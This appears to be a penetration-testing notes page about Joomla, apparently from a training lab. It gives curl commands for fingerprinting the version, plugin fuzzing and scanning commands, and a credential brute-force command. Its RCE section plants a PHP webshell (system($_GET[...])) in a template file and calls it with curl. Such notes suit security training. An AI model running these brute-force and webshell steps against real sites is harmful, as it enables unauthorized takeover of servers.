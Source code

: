 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Joomla

## General Information

Joomla is commonly used with `PHP` and `MySQL` (similar to [WordPress](wordpress.md)) and can be identified by its browser's favicon (Figure 1).

<figure><img src="../../../../.gitbook/assets/joomla_favicon.png" alt=""><figcaption><p>Figure 1: Joomla's favicon.</p></figcaption></figure>

<table><thead><tr><th width="248" align="right">User</th><th>Description</th></tr></thead><tbody><tr><td align="right"><code>Super Users</code>/<code>Administrator</code></td><td>Access to administrative features (adding, deleting users and posts, editing source code)</td></tr><tr><td align="right"><code>Administrator</code></td><td>Admin functions except global options</td></tr><tr><td align="right"><code>Manager</code></td><td>Content creation and backend system info</td></tr></tbody></table>

## Enumeration

### Manual <a href="#manually_enumerating_version" id="manually_enumerating_version"></a>

{% tabs %}
{% tab title="CMS" %}
```bash
curl -s http://dev.inlanefreight.local/ | grep Joomla
```
{% endtab %}

{% tab title="Version" %}
```bash
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```
{% endtab %}
{% endtabs %}

In certain installs, we may be able to discover the version from JavaScript files:

{% tabs %}
{% tab title="js" %}
{% code overflow="wrap" %}
```bash
curl -s http://dev.inlanefreight.local/media/system/js
```
{% endcode %}
{% endtab %}

{% tab title="joomla.xml" %}
{% code overflow="wrap" %}
```bash
curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -
```
{% endcode %}
{% endtab %}

{% tab title="cache.xml" %}
{% code overflow="wrap" %}
```bash
curl -s http://dev.inlanefreight.local/plugins/system/cache/cache.xml | xmllint --format -
```
{% endcode %}
{% endtab %}

{% tab title="language.xml" %}
{% code overflow="wrap" %}
```bash
curl -s http://dev.inlanefreight.local/language/en-GB/en-GB.xml | xmllint --format -
```
{% endcode %}
{% endtab %}
{% endtabs %}

Fuzzing can be used for further directory, plugin, and theme enumeration ([joomla.txt](https://github.com/rapid7/metasploit-framework/blob/master/data/wordlists/joomla.txt)).

{% code overflow="wrap" %}
```bash
# Fuzzing for plugins
$ ffuf -u http://dev.inlanefreight.local/FUZZ -w usr/share/wordlists/joomla/joomla.txt -c -ac
```
{% endcode %}

> [Metasploit's joomla\_plugins](https://www.rapid7.com/db/modules/auxiliary/scanner/http/joomla\_plugins/)

### Automated

#### droopescan <a href="#droopescan" id="droopescan"></a>

[droopescan](https://github.com/SamJoan/droopescan) is a plugin-based scanner designed mostly for SilverStripe, WordPress, and Drupal, but it has some functionality for Joomla and Moodle as well.

{% code overflow="wrap" %}
```bash
droopescan scan joomla --url http://dev.inlanefreight.local/
```
{% endcode %}

## Attacks <a href="#attacking_joomla" id="attacking_joomla"></a>

### joomla-bruteforce <a href="#joomla-bruteforce" id="joomla-bruteforce"></a>

> _Joomla 3.2 stable release bought 2FA as part of the core install which adds another challenge to brute-forcing an account. But it isn't enabled by default._

The default administrator account is `admin` and the password is set at install time. We can use [joomla-bruteforce](https://github.com/ajnik/joomla-bruteforce) to brute force for credentials:

{% code overflow="wrap" %}
```bash
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```
{% endcode %}

> [joombrute](https://github.com/0rbz/JoomBrute) | [Metasploit's joomla\_bruteforce\_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/joomla\_bruteforce\_login/) | [nmap's http-joomla-brute](https://nmap.org/nsedoc/scripts/http-joomla-brute.html) | [nmap's http-form-brute](https://nmap.org/nsedoc/scripts/http-form-brute.html)

### RCE <a href="#code_execution" id="code_execution"></a>

#### **Web Shell**

1. Log in with the obtained credentials at `/administrator`.
2. Navigate to `Templates` and choose one.
3. Click on a page, such as `error.php`, to pull up the source code.
4. Add a PHP webshell, such as `system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);`.
5. Click `Save & Close`.
6. Connect to the webshell for code execution.

<figure><img src="../../../../.gitbook/assets/joomla_rce.png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
```
{% endcode %}

## Known Vulnerabilities <a href="#known_vulnerabilities_examples" id="known_vulnerabilities_examples"></a>

There is a [live vunlerable extensions list.](https://extensions.joomla.org/vulnerable-extensions/vulnerable/)
